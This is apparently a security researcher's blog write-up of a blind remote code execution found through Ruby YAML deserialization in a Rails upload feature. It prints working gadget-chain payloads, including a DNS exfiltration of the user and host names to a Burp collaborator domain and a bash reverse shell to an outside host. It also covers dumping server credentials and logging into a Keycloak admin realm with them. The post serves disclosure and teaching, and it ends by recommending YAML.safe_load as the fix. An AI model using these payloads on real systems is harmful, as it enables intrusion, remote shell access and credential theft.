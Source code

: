 ```yaml
---
layout: post
title:  "Blind Remote Code Execution through YAML Deserialization"
date:   2021-06-09 12:00:00
categories: node
---
```


During an application security assessment of a Ruby on Rails project, I identified upload functionality that allowed users to submit text, CSV, and YAML files. The YAML option stood out due to its potential as a deserialization vulnerability.  

After several uploads, I found that the process validated file contents before uploading them to Azure blob storage. YAML files starting with ```---!ruby/object:BadValue``` triggered a fatal status, while other invalid YAML files returned an error status. This fatal status was the only indicator that the upload process might be vulnerable.

<figure>
  <img src="/assets/2021/blind-rce-status-indicator.png">
  <figcaption>Figure 1 – Fatal status on poc2.yml</figcaption>
</figure>  

Several researchers previously identified gadget chains in Ruby that could lead to code execution, as detailed in the GitHub Gist ["Ruby YAML Exploits."](https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml)

I first tested the Gem::Requirement chain using nslookup and curl commands to a Burp collaborator but received no DNS lookup. After this chain failed, I tested the Gem::Installer chain with the same commands, but again no DNS lookup occurred.

After several attempts, I decided to try the sleep command for 10 minutes with the Gem::Installer chain.

```yaml
 ---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: sleep 600
          method_id: :resolve
```

Uploading the YAML file caused the status icon to display a loading animation for 10 minutes, indicating that the sleep command executed successfully.

<figure>
  <img src="/assets/2021/yaml-deserial-rce-sleep-1.png">
  <figcaption>Figure 2 – Start of the upload</figcaption>
</figure>

<figure>
  <img src="/assets/2021/yaml-deserial-rce-sleep-2.png">
  <figcaption>Figure 3 – Nine minutes after the file was uploaded</figcaption>
</figure> 

After many failed attempts, I finally achieved success! While the sleep command doesn't demonstrate significant impact, it confirmed that code execution was possible. Although it could be used for data exfiltration through a Bash if condition (see below), this would be time-consuming and tedious.
```bash
if [ -f /etc/passwd ]; then sleep 5; fi
```  

After further consideration, I tried the bash -c command, echoing to ```/dev/tcp/:remote-server/443```, hoping for a DNS lookup. To my surprise, I received a DNS lookup and was able to exfiltrate the user and server hostname.

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'echo 1 > /dev/tcp/`whoami`.`hostname`.wkkib01k9lsnq9qm2pogo10tmksagz.burpcollaborator.net/443'"
         method_id: :resolve
```

<figure>
  <img src="/assets/2021/yaml-rce.png">
  <figcaption>Figure 4 – Exfiltrated user and server hostname through DNS lookup</figcaption>
</figure> 

Upon reviewing the server hostnames, I noticed they changed each time the same file was re-uploaded. It seemed there wasn’t much impact, as an Azure Serverless function or worker was likely being spun up. To assess potential impact, I needed to confirm access to environment variables for sensitive information.

I then decided to attempt a reverse shell on port 443, as it’s less likely to be filtered outbound, using the following YAML file.

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'bash -i >& /dev/tcp/reverseshell.example.com/443 0>&1'"
         method_id: :resolve
```

Success! I gained a reverse shell and ran printenv, which revealed sensitive information, including Keycloak admin credentials, Redis, and Azure DB details.

<figure>
  <img src="/assets/2021/reverse-shell-env-vars.png">
  <figcaption>Figure 5 – Listed server environment variables</figcaption>
</figure> 

The server was not an Azure function, but a Kubernetes pod, likely running on Azure Kubernetes. Using the Keycloak admin credentials, I logged into Keycloak's master realm as the admin user through the following URL:  
```https://redacted.com/auth/realms/master/protocol/openid-connect/auth?client_id=account-console&redirect_uri=https%3A%2F%2Fredacted.com%2Fauth%2Frealms%2Fmaster%2Faccount%2F&state=:stateUUID&response_mode=fragment&response_type=code&scope=openid&nonce=:nonceUUID&code_challenge=:challengeValue&code_challenge_method=S256```

The state UUID, nonce UUID, and code challenge values were obtained from the web application's realm.

Given the high impact, the report was sent immediately, with remediation suggesting replacing Ruby's YAML.load() with YAML.safe_load(), as YAML.load() was likely the cause of the vulnerability.

References:  
https://ruby-doc.org/stdlib-2.6.1/libdoc/psych/rdoc/Psych.html  
https://www.elttam.com/blog/ruby-deserialization/  
https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html
